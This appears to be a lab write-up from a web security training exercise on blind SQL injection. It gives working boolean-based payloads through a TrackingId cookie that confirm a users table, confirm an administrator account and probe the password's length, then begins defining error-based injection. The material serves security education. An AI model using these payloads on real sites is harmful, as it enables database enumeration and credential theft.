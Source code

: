 To verify there is a table called users ->

```
TrackingId=fNg3RnqiOBbPgwwI'AND (SELECT 'a' FROM users LIMIT 1)='a
```

* `AND`: This is a logical operator used to combine conditions in SQL queries.
* `(SELECT 'a' FROM users LIMIT 1)='a'`: This part is a subquery. It's attempting to select the character `'a'` from the `users` table with a limit of 1 row. Then, it compares this selected value with the character `'a'`.

Now i want to check if there is a administrator user like the exercice says:

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
TrackingId=fNg3RnqiOBbPgwwI'AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Now we need to determine the length of the password ->

```
TrackingId=fNg3RnqiOBbPgwwI'AND (SELECT 'b' FROM users WHERE username='administrator' AND LENGTH (password)>19)='b
```

This returns us Welcome back assuming that it is true but when we put in 20 we don't have it anymore. Just to be sure, we can change to = ->

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Error-based SQL injection

It's when you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts.

* Return a specific error response based on the result of a boolean expression.
* Trigger error messages that output the data returned by the query

